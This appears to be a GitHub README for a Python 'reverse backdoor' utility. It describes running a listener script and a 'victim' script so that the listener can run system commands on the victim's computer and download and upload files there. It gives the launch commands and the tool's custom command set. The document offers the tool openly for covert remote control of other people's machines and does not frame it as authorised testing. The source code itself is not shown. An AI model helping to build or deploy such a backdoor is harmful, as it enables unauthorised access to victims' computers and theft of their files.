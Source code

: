 # reverse_backdoor
Simple reverse backdoor utility, that uses sockets to communicate.

## How to use

1. Run rev_bd_listener.py using command below:
```
$ python3 rev_bd_listener.py
```
2. Change IP address to the one you wish to connect to in rev_bd_victim.py.

3. Run rev_bd_victim.py on the victim's computer:
```
$ python3 rev_bd_victim.py
```
4. Now you can execute system commands on victim's PC from listener's PC, download files from the victim, upload files to the victim.


Available custom commands:
```
$ download <path_to_file_on_victim>
$ upload <path_to_file_on_listener>
$ cd <path_to_directory_on_victim>
$ quit
```
